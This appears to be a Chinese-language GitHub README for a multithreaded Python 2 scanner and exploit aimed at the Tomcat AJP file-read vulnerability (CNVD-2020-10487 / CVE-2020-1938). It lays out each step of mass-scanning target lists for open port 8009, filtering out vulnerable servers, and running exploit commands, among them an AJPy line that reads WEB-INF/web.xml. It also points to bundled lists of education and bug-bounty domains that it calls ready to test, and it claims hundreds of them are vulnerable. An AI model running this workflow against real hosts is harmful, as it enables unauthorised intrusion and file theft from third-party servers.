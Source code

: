 # Python 2.x 多线程扫描 Tomcat-Ajp 协议文件读取漏洞

漏洞影响版本：

- Apache Tomcat 7 < 7.0.100

- Apache Tomcat 8 < 8.5.51

- Apache Tomcat 9 < 9.0.31

PoC 来源于[CNVD-2020-10487-Tomcat-Ajp-lfi](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi)，并加以修改

**注：仅供学习，严禁非法使用**

## 操作

### 将需要扫描的 IP 或域名放于 `ip.txt`

ip.txt中不需要加协议，比如：

```
127.0.0.1
www.baidu.com
www.google.com
```

src 域名收集文件夹中为本人收集的教育src和补天src的一些域名，可直接测试

### 批量扫描 `8009` AJP 端口开放情况

```bash
python threading-find-port-8009.py
```

这将会生成 `8009.txt`，作用为扫描 `ip.txt` 中 IP 或域名，并找出开放的 `8009` 端口

### 筛选可利用漏洞的 Tomcat Server

```bash
python threading-CNVD-2020-10487-Tomcat-Ajp-lfi.py
```

从 `8009.txt` 中筛选出符合漏洞的 IP 或域名，放置于 `vul.txt` 中，最后 `vul.txt` 中存在的域名即为含有漏洞的 IP 或域名

测试可知，补天公益src有上百站点，教育src大概三百站点包含此漏洞

![漏洞扫描](1.png)

### 漏洞利用测试

```bash
python CNVD-2020-10487-Tomcat-Ajp-lfi.py 127.0.0.1
```

两个脚本的最后一行均为线程数，默认是 `20`，可自行修改，分别位于：

- `threading-find-port-8009.py` 的 67 行

- `threading-CNVD-2020-10487-Tomcat-Ajp-lfi.py` 的 341 行

```python
thread_num = 20
```

### 其他

漏洞测试利用更推荐使用 [AJPy](https://github.com/hypn0s/AJPy) 工具包，如需利用 `CVE-2020-1938`：

```bash
python tomcat.py read_file --webapp=ROOT /WEB-INF/web.xml 127.0.0.1
```
